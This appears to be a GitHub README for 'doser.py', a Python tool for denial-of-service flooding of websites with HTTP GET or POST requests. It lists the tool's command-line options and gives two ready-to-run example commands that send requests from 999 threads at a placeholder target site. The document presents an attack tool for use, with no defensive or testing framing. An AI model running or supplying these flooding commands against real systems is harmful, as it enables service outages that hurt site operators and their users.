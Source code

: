 # doser.py
DoS tool for HTTP requests (inspired by hulk but has more functionalities) written in Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)
# Usage
usage: doser.py [-h] [-g G] [-p P] [-d D] [-ah AH] [-t T]

optional arguments:

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used

# Examples
999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```
